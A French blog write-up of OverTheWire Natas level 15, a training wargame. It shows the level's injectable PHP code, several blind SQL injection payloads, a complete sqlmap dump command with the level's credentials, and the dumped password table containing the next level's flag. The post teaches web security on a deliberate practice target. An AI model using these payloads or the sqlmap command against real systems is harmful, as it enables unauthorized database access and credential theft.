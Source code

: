 ```yaml
---
layout: post
title: Wargame Natas - Writeup Level 15
description: La solution du level 15 du wargame Natas qui s'avère être une faille de type blind SQL injection.
categories: articles
tags: [hacking]
photo: overthewire_logo.png
comments: true
---
```


Il y a quelque temps je me suis penché sur le wargame [Natas](http://www.overthewire.org/wargames/natas) présent sur le site  [overthewire.org](http://www.overthewire.org), qui permet de s'initier à la sécurité web. Les épreuves sont pour la plupart assez simples et ne devrait pas poser de problèmes à ceux qui ont l'habitude des épreuves de ce genre là. Pour ceux que ça intéresse j'ai mis à disposition les solutions des épreuves précédentes sur le [wiki](http://wiki.zenk-security.com/doku.php?id=natas_wargame) de ZenkSecurity.

J'ai choisi de rédiger le writeup du level 15 pour montrer que la bonne maîtrise d'un outil peut faire gagner pas mal de temps, en l’occurrence nous allons utiliser sqlmap qui est un des outils les plus populaires pour exploiter les failles de type SQL injection.

L'épreuve se présent sous la forme d'un simple formulaire permettant de vérifier l'existence d'un utilisateur dans la base de données :

<figure>
    <img src="/images/blog_posts/natas15_1.png"></a>
	<figcaption>L'utilisateur n'existe pas.</figcaption>
</figure>

Lorsque que l'on valide le formulaire un message nous indique si oui ou non l'utilisateur est présent :

<figure>
    <img src="/images/blog_posts/natas15_2.png"></a>
    <figcaption>L'utilisateur existe.</figcaption>
</figure>

On suppose qu'il va falloir récupérer les informations de l'utilisateur `natas16` puisqu'il existe.

Jetons un oeil au code source :

{% highlight php linenos %}
<?php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
{% endhighlight %}

On apprend tout d'abord que les informations sont stockées dans une table nommée `users` et qui comprend deux colonnes, `username` et `password`. Le flag pour le prochain niveau correspond très probablement au mot de passe de l'utilisateur `natas16`.

On remarque qu'il est possible de modifier la requête SQL en manipulant le paramètre `username` puisque ce dernier n'est pas filtré. Malheureusement on ne va pas pouvoir directement récupérer les informations présente en base puisque la seule informations que nous est fournis est si oui ou non l'utilisateur existe.

Pour arriver à nos fin nous allons utiliser une technique appelé Blind SQL injection, un exemple est plus parlant :

    natas16" and 1=2# // This user doesn't exist.
    natas16" and 1=1# //  This user exist.
    natas16" and substr(password,1,1)='4'# // This user doesn't exist.
    natas16" and substr(password,1,1)='3'# //  This user exist.

On peut donc récupérer caractère par caractère le mot de passe de l'utilisateur natas16 avec un petit script, mais comme je suis feignant on va utiliser sqlmap avec les options qui vont bien:

    sqlmap.py
    -u "http://natas15.natas.labs.overthewire.org/"
    --string="This user exists"
    --technique=B
    --auth-type=Basic
    --auth-cred=natas15:m2azll7JH6HS8Ay3SOjG3AGGlDGTJSTV
    --data "username=natas16"
    -D natas15
    -T users
    -C username,password
    --dump
    --level=5
    --risk=3

Après quelques minutes vous devriez obtenir ceci :

    +----------------------------------+----------+
    | password                         | username |
    +----------------------------------+----------+
    | hROtsfM734                       | alice    |
    | 6P151OntQe                       | bob      |
    | HLwuGKts2w                       | charlie  |
    | 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3L | natas16  |
    +----------------------------------+----------+

Et une épreuve validée de plus :)

Pour plus d'info concernant les options de sqlmap reportez vous à la [documentation](https://github.com/sqlmapproject/sqlmap/wiki/Usage).

Et si vous voulez voir l'exécution du script en direct c'est par ici :

<script type="text/javascript" src="http://ascii.io/a/1623.js" id="asciicast-1623"> </script>